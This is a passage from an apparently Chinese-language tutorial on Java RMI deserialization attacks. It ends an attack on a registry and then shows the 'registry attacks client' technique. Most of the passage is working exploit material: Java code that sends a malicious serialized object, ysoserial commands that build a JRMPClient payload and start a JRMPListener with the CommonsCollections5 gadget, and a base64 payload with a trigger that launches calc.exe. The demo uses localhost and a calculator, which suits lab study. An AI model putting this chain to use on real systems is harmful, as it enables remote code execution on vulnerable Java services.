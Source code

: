 ```java

            objOut.writeLong(0); // RegistryImpl_Skel
            objOut.writeInt(0);
            objOut.writeLong(0);
            objOut.writeShort(0);
            objOut.writeInt(0); // bind
            objOut.writeLong(4905912898345647071L);// 接口Hash值，这里是固定的
            // 写入恶意的序列化对象
            objOut.writeObject(payloadObject);
            os.flush();
        } finally {
            // 关闭Socket输出流
            if (dos != null) {
                dos.close();
            }

            // 关闭Socket连接
            if (s != null) {
                s.close();
            }
        }
    }
}
```

### 注册中心攻击客户端
这个攻击一般是以下流程: 我们利用远程服务器的反序列化漏洞，让其作为客户端主动连接我们本地的恶意注册中心，注册中心再返回一个恶意构造的序列化对象，客户端将其反序列化从而最终造成反序列化漏洞，常用于绕过waf和测试gadget

在了解这个攻击方式之前，我们需要去了解RMI协议，参考文章: [attack-rmi-registry-and-server-with-socket](https://xz.aliyun.com/t/8247)
具体代码参考ysoserial中的exploit/JRMPListener。
#### 攻击流程
1. 运行`java -jar ysoserial.jar JRMPClient 127.0.0.1:2099 | base64 -w 0`生成一段恶意序列化对象让其回连我们的恶意注册中心
2. 运行`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 2099 CommonsCollections5 "calc.exe"`启动一个恶意的注册中心
3. 手动模拟反序列化漏洞点
 ```java
package top.longlone.RMIStudy;

import sun.misc.BASE64Decoder;

import java.io.*;

public class vuln {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 上述base64之后的序列化对象，其会回连我们127.0.0.1:2099的恶意注册中心
        byte[] data = new BASE64Decoder().decodeBuffer("rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MgAKVW5pY2FzdFJlZgAJMTI3LjAuMC4xAAAIMwAAAABkqebwAAAAAAAAAAAAAAAAAAAAeA==");
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
        ois.readObject();

    }
}
 ```
4. 运行上述代码，成功在客户端弹出计算器:
    ![](https://gitee.com/guuest/images/raw/master/img/20211118112950.png)
其触发反序列化的位置在`sun.rmi.registry.RegistryImpl_Stub#lookup`:
![](https://gitee.com/guuest/images/raw/master/img/20211118113332.png)